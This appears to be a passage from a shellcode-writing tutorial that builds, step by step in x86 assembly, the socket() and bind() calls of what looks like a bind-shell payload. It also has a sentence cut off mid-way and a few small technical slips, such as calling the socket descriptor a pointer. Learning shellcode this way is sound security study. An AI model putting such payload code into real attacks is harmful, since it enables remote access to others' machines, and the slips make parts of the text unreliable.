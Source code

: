 Next I must push the parameters of the [socket()](https://man7.org/linux/man-pages/man2/socket.2.html) call onto the stack in reverse order. 

The socket() function prototype looks like this
```c
int socket(int domain, int type, int protocol);
```

The (protocol) parameter IPPROTO_TCP which is `0x6`, found with this command:
```bash
cat /usr/include/netinet/in.h | grep IPPROTO_TCP
```

The (type) parameter will be SOCK_STREAM which is `0x1`, found with this command:
```bash
cat /usr/include/i386-linux-gnu/bits/socket_type.h  | grep SOCK_STREAM
```

The (domain) parameter will be AF_INET which is `0x2`, found with this command:
```bash
cat /usr/src/linux-headers-5.15.0-kali3-common/include/linux/socket.h | grep AF_INET
```

The assembly looks like this:

```x86asm
                    ; *args: push in reverse order to stack
push 0x6			; protocol = IPPROTO_TCP (6) - 
push 0x1			; type = SOCK_STREAM (1)
push 0x2			; domain = AF_INET (2)
mov ecx, esp        ; capture address of stack in ecx
```

The parameters will be popped off the stack and the


All that's left to do to call `socketcall()` by issuing the syscall() command `int 0x80`, after which the return value (in `eax`) will be a pointer to the newly created socket, which I move into `edi` for later use.

```x86asm
int 0x80
mov edi, eax 		; store socket ptr to edi in edx
```

Next I must call [bind()](https://man7.org/linux/man-pages/man2/bind.2.html).

To do this, I again need to call socketcall() but with a new value for SYS_socketcall. In this instance, I will use the value of `0x02` which is the enumerator index of bind(). This can be found by running the following command:

```bash
cat /usr/include/linux/net.h | grep SYS_BIND
```

To do this, I first clear registers I plan to use and setup the syscall with the following assembly:

```x86asm
; clear registers
xor eax, eax
xor ebx, ebx
xor ecx, ecx

mov al, 0x66  		; int socketcall(int call, unsigned long *args)	;
mov bl, 0x2			; bind()	;
```
